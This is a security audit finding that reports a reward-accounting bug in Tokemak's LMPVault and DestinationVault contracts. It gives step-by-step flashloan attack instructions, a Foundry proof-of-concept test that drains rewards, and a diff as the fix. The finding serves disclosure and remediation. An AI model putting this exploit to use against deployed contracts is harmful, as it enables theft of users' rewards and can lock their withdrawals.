 Sticky Malachite Rook

high

# An attacker can steal all the rewards due to incorrect reward accounting
## Summary
In the `DestinationVault` and `LMPVault` contracts, the `rewarder.stake()` function is being called in the `_afterTokenTransfer` hook instead of being called in the `_beforeTokenTransfer` hook. As a result of this, unrealized rewards of the stake receiver will be calculated using the new stake balance instead of the old stake balance. An attacker could potentially exploit this issue to steal all the rewards in the `Rewarder` contract.

## Lines Of Code
[https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L854-L865](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L854-L865)

[https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/DestinationVault.sol#L345-L354](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/DestinationVault.sol#L345-L354)

## Vulnerability Detail
1. Whenever a liquidity movement occurs in the `stakeTracker`, the reward data of both the stake sender and the stake receiver should be updated with their respective old liquidity balances.
2. But, in `LMPVault` and `DestinationVault`, the sender's reward data is updated with the old stake balance, while the receiver's reward data is updated using the new stake balance because `rewarder.stake` is being called in `_afterTokenTransfer` hook.

## Attack Steps
1. Attacker mints 1 wei share of `LMPVault`  with multiple accounts when deposits start for the vault.
2. Attacker waits some time to get some decent amount unrealized rewardPerToken.
3. Now attacker takes a flashloan and mints huge amount `LMPVault` shares.
4. The attackers unrealized rewardPerToken will be multiplied with new balance. So he will get more amount of rewards than what he should actually get.
5. Now the attacker transfers those huge amount of shares from one account to another account to all those accounts created in step 1 so that all the other accounts will also realize more rewards than required until he drains all the rewards in the `Rewarder`.


## Impact
1. An attacker can steal almost all the rewards in the Rewarder.
7. Withdrawals of `LMPVault` and `DestinationVault` will be brickedf because the `_processRewards()` function is being called in `rewarder.stake()`, but the rewarder will not have enough rewards for other users who are trying to withdraw their stakes. As a result, withdrawals from Destination and LMP Vaults will be locked.


## Code Snippet
```solidity
    function _afterTokenTransfer(address from, address to, uint256 amount) internal virtual override {
        // Nothing to do really do here
        if (from == to) {
            return;
        }

        // @audit stake function is being called after transfer 
        // so reward accouting will happen with new balance
        if (to != address(0)) {
            rewarder.stake(to, amount);
        }
    }
```


## POC
```solidity
function test_rewards_accounting_issue() public {
        address victim = vm.addr(100);
	address attacker = vm.addr(200);

	_asset.mint(victim, 1000);
	_asset.mint(attacker, 30000);


	// 1.Admin queued new rewards
	_accessController.grantRole(Roles.LIQUIDATOR_ROLE, address(this));
	_toke.mint(address(this), 1000);
	_toke.approve(address(_rewarder), 1000);
	_rewarder.queueNewRewards(1000);

	// 2. Victim deposited funds to the LMPVault
	vm.startPrank(victim);
	_asset.approve(address(_lmpVault), 1000);
	_lmpVault.deposit(1000, victim);
	vm.stopPrank();

	// 3. Attacker deposited very small amount of funds to the LMPVault
	vm.startPrank(attacker);
	_asset.approve(address(_lmpVault), 10);
	_lmpVault.deposit(10, attacker);
	vm.stopPrank();

	vm.roll(block.number + 101);

	console.log("Rewards Before Attack:");
	console.log("Attacker Rewards = %s", _rewarder.earned(attacker));
	console.log("Victim Rewards   = %s\n", _rewarder.earned(victim));

	console.log("Rewards Before Attack:");

	// 4.Attacker deposits and withdraw a huge amount of funds in the same block using a flashloan
	vm.startPrank(attacker);
	_asset.approve(address(_lmpVault), 29000);
	_lmpVault.deposit(29000, attacker);
	_lmpVault.withdraw(29010, attacker, attacker);
	vm.stopPrank();


	// 5. Victim withdraw his funds from LMPVault
	vm.startPrank(victim);
	_lmpVault.withdraw(1000, victim, victim);
	vm.stopPrank();


	console.log("Attacker Rewards = %s", _toke.balanceOf(attacker));
	console.log("Victim Rewards   = %s", _toke.balanceOf(victim));

}
```

## Tool used

Manual Review

## Recommendation
Move `rewarder.stake()`  external call to `_beforeTokenTransfer` hook
```diff
    function _beforeTokenTransfer(address from, address to, uint256 amount) internal virtual override whenNotPaused {
        
        if (from == to) {
            return;
        }

        if (from != address(0)) {
            rewarder.withdraw(from, amount, true);
        }

+       if (to != address(0)) {
+           rewarder.stake(to, amount);
+       }

        if (balanceOf(to) + amount > perWalletLimit) {
            revert OverWalletLimit(to);
        }
    }
```
